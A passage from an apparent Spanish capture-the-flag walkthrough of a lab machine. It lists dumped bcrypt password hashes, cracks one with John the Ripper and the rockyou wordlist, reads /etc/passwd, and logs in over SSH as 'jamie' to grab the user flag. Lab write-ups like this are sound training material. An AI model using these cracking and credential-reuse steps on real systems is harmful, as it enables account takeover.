 ```bash
travis_carl89   $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S
mac_amy89       $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i
james_boris89   $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq
pierce_allan    $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy
henry_william89 $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu
harper_zoe89    $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy
wright_travis89 $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm
allen_matthew89 $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq
sanders_wallis89        $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u
higgins_jane    $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
phillips_manuel $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
carter_lianne   $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
parker_dan89    $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi
parker_tim89    $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S
tukutu  $2y$10$SPPk3i6KBvbmYBkIyFzUC.g0l7bdwlVwmc6W7i7ifC0KlI57ZK1gO
```

Como son muchos voy a ir a por el del usuario admin unicamente:

```bash
❯ john hashestocrack --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)
1g 0:00:00:43 DONE (2021-09-06 16:26) 0.02320g/s 322.4p/s 322.4c/s 322.4C/s goodman..superpet
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Tenemos una contraseña y tambien tenemos dos usuarios con los que poder intentar conectarnos por ssh:

```bash
$ cat /etc/passwd | grep "sh"
root:*:0:0:Charlie &:/root:/bin/csh
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
steve:*:1002:1002:User &:/home/steve:/bin/csh
$ 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ ssh jamie@10.10.10.234
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!
jamie@Schooled:~ $
jamie@Schooled:~ $ cat user.txt 
2f0dc91d654cd612a8da9----------
```

